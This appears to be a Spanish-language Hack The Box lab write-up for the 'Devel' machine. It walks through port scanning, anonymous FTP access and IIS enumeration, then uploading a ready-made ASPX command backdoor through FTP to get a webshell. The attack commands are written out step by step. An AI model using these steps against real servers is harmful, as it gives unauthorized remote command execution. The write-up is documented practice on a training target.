

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/devel/index.html · generator: mkdocs

# Devel

```bash
nmap -p- --open -sCV --min-rate=5000 -n -Pn 10.129.58.25 -oN nmap_scan.txt
```

![](../../assets/img/Pasted_image_20260126190157.png)

```bash
ftp 10.129.58.25
```

- Anonymous
- "Enter"
Logueados

![](../../assets/img/Pasted_image_20260126190408.png)

No parece haber nada interesante en los archivos a priori

-
```bash
whatweb "http://10.129.58.25"
```

![](../../assets/img/Pasted_image_20260126191027.png)

- Encontramos un IIS 7.5

- Gobuster y wfuzz no reportan nada interesante
- Probamos gobuster con diccionario */usr/share/seclists/Discovery/Web-Content/Web-Servers/IIS.txt*
No encontramos mucho

_-> Cambio IP -> 10.129.58.157_

- Intentaremos subir al ftp un archivo malicioso en formato ejecutable por un servidor windows, es decir un *.aspx*

![](../../assets/img/Pasted_image_20260127095926.png)

- Buscamos en nuestro sistema por archivos que sean .aspx y que nos den un cmd para subirlo al ftp e intentar ejecutarlo desde la web, ya que está sincronizada con el directorio donde reside el ftp
```bash
locate .aspx | grep cmd
```

![](../../assets/img/Pasted_image_20260127100843.png)

Probaremos con */usr/share/davtest/backdoors/aspx_cmd.aspx*
Nos lo copiamos a nuestro directorio actual de trabajo
```bash
cp /usr/share/davtest/backdoors/aspx_cmd.aspx .
```

- Accedemos a ftp y subimos con put
```bash
put aspx_cmd.aspx
```

![](../../assets/img/Pasted_image_20260127101143.png)

- Abriendo el recurso desde la web obtenemos una webshell
